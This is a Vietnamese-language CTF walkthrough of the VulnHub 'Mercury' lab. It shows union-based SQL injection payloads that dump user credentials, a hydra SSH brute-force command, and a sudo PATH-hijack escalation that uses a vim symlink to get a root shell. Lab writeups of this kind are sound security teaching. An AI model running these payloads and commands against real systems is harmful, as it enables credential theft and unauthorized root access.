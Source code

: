 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="\_blank"}

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database. Hơn thế nữa, dựa vào syntax error xác định được Union-based SQLi. Mở Burp và tiến hành khai thác.
<br>

## Exploitation

Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, tham chiếu từ `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/posts/mercury-walkthrough/exploit-4.PNG)

Có 2 bảng được trích xuất, nhưng chỉ cần quan tâm đến bảng `users`.

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password.

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên đã được thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster` ha). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Từ đây, ta có thể tận dụng nó bằng cách symlink nó tới 1 chương trình có thể sinh ra shell (ví dụ như `vim`)

`vim` có thể thực thi shell command thông qua syntax `:!`, tiến hành symlink _vim_ qua _tail_ và đồng thời set PATH cho đường dẫn hiện tại:

```shell
ln -s /usr/bin/vim tail
```

```shell
export PATH=${pwd}:$PATH
```

![check_syslog.sh](/posts/mercury-walkthrough/symlink-to-vim.PNG)

Bước cuối cùng, công việc thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Lúc này `vim` được mở lên, điều chúng ta cần làm là type `:shell`

![spawn shell](/posts/mercury-walkthrough/shell.PNG)

Hit enter và root shell hiện ra:

![get root](/posts/mercury-walkthrough/get_root.PNG)

Flag:

![flag](/posts/mercury-walkthrough/flag.png)

